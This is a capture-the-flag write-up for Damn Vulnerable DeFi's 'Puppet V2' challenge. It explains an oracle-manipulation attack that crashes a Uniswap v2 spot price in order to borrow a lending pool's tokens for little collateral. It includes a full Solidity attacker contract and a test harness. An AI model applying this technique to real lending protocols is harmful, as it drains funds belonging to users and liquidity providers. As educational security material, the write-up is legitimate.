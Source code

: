 # Puppet V2

### problem statement

The developers of the [previous pool](https://damnvulnerabledefi.xyz/challenges/puppet/) seem to have learned the lesson. And released a new version.

Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. Shouldn't that be enough?
You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance at risk!

Save all funds from the pool, depositing them into the designated recovery account.



### Attack sequence
1. You crash the DVT price by dumping a ton of DVT into Uniswap.
    
2. The oracle (Uniswap price) now reports DVT is nearly worthless.
    
3. You call `borrow(1_000_000 ether)` (1M DVT).
    
4. The pool calculates a tiny amount of WETH is needed (e.g. ~9 WETH).
    
5. You provide that WETH, and receive 1M DVT tokens.



### How it happens

1. You crash the DVT price by dumping a ton of DVT into Uniswap.
    
2. The oracle (Uniswap price) now reports DVT is nearly worthless.
    
3. You call `borrow(1_000_000 ether)` (1M DVT).
    
4. The pool calculates a tiny amount of WETH is needed (e.g. ~9 WETH).
    
5. You provide that WETH, and receive 1M DVT tokens.


## Mistake's I made during this exploit

1. I messed up the swap path not knowing it determines the order of swappimg
   ```diff
-  address[] memory path = new address[](2);
-        path[0] = address(weth);
-       path[1] = address(token);

+ address[] memory path = new address[](2);
+        path[0] = address(token);
+       path[1] = address(weth);

```

2. Forgetting to fund my attacker contract 



## The main exploit

```js
function _getOracleQuote(uint256 amount) private view returns (uint256) {

(uint256 reservesWETH, uint256 reservesToken) =

UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

  

return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});

}
```


As you can see it makes use of the reserves in the uniswap to determine the price 

```js
function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {

require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");

require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");

amountB = amountA * reserveB / reserveA;

}
```


If you look at the quote it makes use of the reserve to calculate `amountB` since it's still heavily reliant on uniswap reserves we can exploit it.


### Solution

```js
// SPDX-License-Identifier: MIT

// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)

pragma solidity =0.8.25;

  

import {IUniswapV2Router02} from "@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";

import {WETH} from "solmate/tokens/WETH.sol";

import {DamnValuableToken} from "../../src/DamnValuableToken.sol";

import {PuppetV2Pool} from "../../src/puppet-v2/PuppetV2Pool.sol";

  

contract Attacker {

WETH weth;

DamnValuableToken token;

IUniswapV2Router02 router;

PuppetV2Pool pool;

address recovery;

uint256 constant PLAYER_INITIAL_TOKEN_BALANCE = 10_000e18;

uint256 constant POOL_INITIAL_TOKEN_BALANCE = 1_000_000e18;

  

constructor(

address payable _weth,

address _token,

address _router,

address _pool,

address _recovery

) payable {

weth = WETH(_weth);

token = DamnValuableToken(_token);

router = IUniswapV2Router02(_router);

pool = PuppetV2Pool(_pool);

recovery = _recovery;

}

  

function attack() external {

// deposit some weth 25 eth -> 25 weth

weth.deposit{value: address(this).balance}();

token.approve(address(router), PLAYER_INITIAL_TOKEN_BALANCE);

address[] memory path = new address[](2);

path[0] = address(token);

path[1] = address(weth);

router.swapExactTokensForTokensSupportingFeeOnTransferTokens(

PLAYER_INITIAL_TOKEN_BALANCE,

9e18,

path,

address(this),

block.timestamp

);

  

uint256 amount = pool.calculateDepositOfWETHRequired(

POOL_INITIAL_TOKEN_BALANCE

);

weth.approve(address(pool), amount);

pool.borrow(POOL_INITIAL_TOKEN_BALANCE);

// my balance should be the pool initial balance now

token.transfer(recovery, POOL_INITIAL_TOKEN_BALANCE);

}

  

receive() external payable {}

}
```


```js
function test_puppetV2() public checkSolvedByPlayer {

Attacker attacker = new Attacker{value: PLAYER_INITIAL_ETH_BALANCE}(

	payable(address(weth)),

	address(token),

	address(uniswapV2Router),

	address(lendingPool),

	address(recovery)

);

token.transfer(address(attacker), PLAYER_INITIAL_TOKEN_BALANCE);

attacker.attack();

}
```

